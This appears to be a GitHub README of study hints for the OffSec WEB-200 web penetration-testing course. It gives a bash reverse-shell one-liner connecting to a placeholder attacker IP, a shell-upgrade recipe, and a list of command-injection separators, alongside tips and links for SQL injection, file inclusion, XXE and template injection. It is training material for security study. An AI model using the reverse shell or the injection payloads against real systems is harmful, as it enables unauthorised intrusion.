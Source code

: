 # Syllabus Related Hints
In this section I will pick a few topics out of the syllabus and give some technical hints. If you want me to give hints for other topics, create an issue. It is important to understand that my hints only make sense if you carefully read and complete the course material. **All links and hints I provide to external resources should be considered as additional literature which are no replacement for the material provided by offsec. The offsec course material is gold imho.**

## Tools
### Wordlists
Beside the standard Kali linux wordlists located under `/usr/share/wordlists` I think the seclists package is a premium set of wordlists which fits most needs. Especially it has lists connected to certain vulnerabilities like SQL-Injection, Local File Inclusion, 
Server-side Template Injection and so on which comes in handy for several topics of the web-200 course.
```bash
sudo apt-get install -y seclists
cd /usr/share/seclists/
```

### Shells
During the course and the exam you will have to identify/exploit different kind of vulnerabilities which might lead to some kind of remote code execution. Therefore it is always useful to get a reverse shell connecting to your kali machine instead of exploiting the 
vulnerability again and agin. For me in most cases the standard `bash` back connect shell worked great (under linux of course)
```bash
bash -c 'bash -i >& /dev/tcp/<KALI-IP>/9090 0>&1'
```

Sometimes it is useful to upgrade this shell to a fully interactive one

```bash
python -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
```
CTRL+Z
```bash
stty raw -echo; fg
```
Now you should have a fully interactive shell. This sometimes is needed when you do some kind of privilege escalation stuff. (not part of web-200)

## SQL-Injection
- `seclists` has awesome wordlists to manually detect SQL injection vulnerabilities using tools like `wfuzz` or `burpsuite`: `/usr/share/seclists/SQLi`
- one word regarding `SQLMap`: this tool is allowed during the exam
- however, in my experience `SQLMap` often fails even if there is an SQL-Injection
- I usually use `SQLMap` only after I identified the vulnerability manually and only use it to exfiltrate data when manual exfiltration is to expensive
- Therefore I parameterize `SQLMap` in a way it does not send useless requests to the target, because the tool is noisy as hell and (depending on the configuration) influences the integrity of the database
- When you identified an injection it is cruical that you have a good cheat sheet available, so you can exfiltrate data in a copy paste style
  - https://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet
  - https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection
  - https://portswigger.net/web-security/sql-injection/cheat-sheet

## Directory Traversal and Local File Inclusion
- general test cases: https://zsahi.wordpress.com/2018/09/10/file-inclusion/
- useful wordlists to combine with `wfuzz` or `burpsuite`: `/usr/share/seclists/Fuzzing/LFI/`

## XML External Entity Attack
- often overlooked
- Know how to idenfitiy this kind of vulnerability
- every point where the application might parse XML is a potential dangerous sink where you can test for it
- get used to how to read files by exploiting an XXE attack "visibly" and blind
  - https://portswigger.net/web-security/xxe
  - https://portswigger.net/web-security/xxe/blind

## Server-side Template Injection
### identify
- often overlooked
- identifying is not always easy 
- you need to identify what kind of technology/framework is used on the target machine
- then it is a good idea to perform some basic tests to identify if templates are used at all and the website is vulnerable
- `seclists` provides a good wordlist to detect SSTIs: `/usr/share/seclists/Fuzzing/template-engines-expressions.txt`
- The following picture gives an overview what template engine might be in use if a certain test succeeded: https://portswigger.net/web-security/images/template-decision-tree.png

### exploit
- the exploitation impact ranges from XSS to RCE depending on the template engine used
- RCEs for apache freemarker, twig and pug/jade: https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection

## Command Injection
Try to think what the target application might do in the backend when using features of the website. Does the web application maybe call an external program? When you identified a potential injection point you usually have to escape from the original command and inject your own.

### Command Seperators
- `&`
- `&&`
- `|`
- `||`
- `;` (no Windows CMD)
- `0x0a` (no Windows CMD)
- `\n` (no Windows CMD)
- ``` `whoami` ``` (no Windows CMD)
- `$(whoami)` (no Windows CMD)

### Good Reads
- https://www.hackedu.com/blog/owasp-top-10-mini-series-command-injection
- https://book.hacktricks.xyz/pentesting-web/command-injection

